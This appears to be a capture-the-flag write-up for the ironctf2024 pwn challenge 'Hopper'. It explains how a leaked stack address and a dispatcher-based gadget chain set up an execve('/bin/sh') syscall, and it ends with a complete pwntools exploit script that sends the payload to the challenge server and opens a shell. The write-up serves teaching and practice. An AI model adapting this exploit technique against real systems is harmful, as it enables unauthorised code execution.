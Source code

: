 # Hopper
## Description
Hippety-hop... Hippety-hop your way to victory!
Ctf: ironctf2024 https://ctf.1nf1n1ty.team/challenges#Hopper-15
Author: Vigneswar
Category: pwn
`nc pwn.1nf1n1ty.team 31886`
## Writeup
### Overview
In this challenge we are given only binary without source code so we need to make use of IDA free to see what this binary does.
But first we check what is this file using `file`  program
![](attachments/Pasted%20image%2020241006121743.png)
we also `checksec` to find out what security features does this binary have
![](attachments/Pasted%20image%2020241006121915.png)
from this we could say that this is nearly perfect binary for pwning, but life is not all roses and we cannot execute code from the stack.
Lets take look at what is inside, shall we?

![](attachments/Pasted%20image%2020241006122327.png)

there is not even main function in this programme so we take a look at `start` .
What it does is:
- print a bunny ascii image
- print retaddr (very important for us)
- print "hop hop" as ascii image
- takes our input to a stack
- jumps to an address that that is at the top of our input
Why is this retaddr important for us?
Thanks to it we can find out where is stack located, and we can reference addresses according to this leaked address.
Luckily for us we are provided some gadgets that can help us exploit this challenge.

![](attachments/Pasted%20image%2020241006123411.png)
![](attachments/Pasted%20image%2020241006123425.png)![](attachments/Pasted%20image%2020241006123440.png)![](attachments/Pasted%20image%2020241006123711.png)
### Plan for an exploit
Since we cannot execute the code from the stack we need to use provided gadgets to execute `syscall` of `execve`. What this means is we have to set some registers according to requirements
[x64.syscall.sh](https://x64.syscall.sh/)

![](attachments/Pasted%20image%2020241006123857.png)
- `RAX` has to be `0x3B`
- `RDI` has to be pointer to the beginning of `/bin/sh` string
- `RSI` has to be `0`
- `RDX` has to be `0`
and we need to execute `syscall` after that

How do we control the flow of the programme using those gadgets? 
If we put address of dispatcher in `r15` (address that is jumped to at the end of most of the gadgets) we can use it to jump to some gadget like

![](attachments/Pasted%20image%2020241006124910.png)

and then jump back to `r15` - dispatcher 
what dispatcher does is it increases value in `rbx` by `8`  and jumps to address that is pointed by address in this register. So we can essentially use it to walk the gadgets of which we put addresses on the stack.
### Actual exploit
In order to do that we can put an address of gadgets at the top:
- address of `gadgets` gets popped of to `rsi`
- address of `/bin/sh\x00` gets popped of to `rdi`
- address of we leaked earlier gets popped of to `rbx` (this is the address that will be used by dispatcher)
- value of `0x3B` gets popped of to `r13`
- address of `dispacher` gets popped to `r15`
- we jump to `disparcher` 
- `dispacher` jumps to itself
- `dispatcher` jumps to gadgets that clears `rsi`
- `dispatcher` jumps to `xchg rax, r13` to set rax to be `0x3b`
- from there we jump to address that is at `rsp`
- from `dispatcher` we once again clear `rsi`
- from `dispatcher` we once again clear `rdx`
- finally we jump to `syscall`
Code:
```python
from pwn import remote, p64, u64

conn = remote("pwn.1nf1n1ty.team", 31886)

msg = conn.recvuntil(b'>>')
addr = msg[379: 379 + 8]

addr_int = u64(addr)
bin_sh_addr = addr_int + 8 * 6

gadget_chain = 0x401017
dispatcher_addr = 0x401011
xor_rsi = 0x401027
xchg_rax_r13 = 0x40100c
xor_rdx = 0x401021
syscall = 0x40100a

payload = p64(gadget_chain)
payload += p64(bin_sh_addr)         # rdi
payload += p64(addr_int)            # rbx
payload += p64(0x3b)                # r13 (later rax)
payload += p64(dispatcher_addr)     # r15 dispatcher
payload += p64(xor_rsi)             # clear rsi
payload += p64(xchg_rax_r13)        # swap rax and r13
payload += p64(xor_rdx)             # clear rdx
payload += p64(syscall)             # syscall
payload += b'/bin/sh\x00'

conn.sendline(payload)
conn.interactive()
```
### Pro tip
if you don't include null byte at the end of `/bin/sh` you might find yourself debugging for few additional hours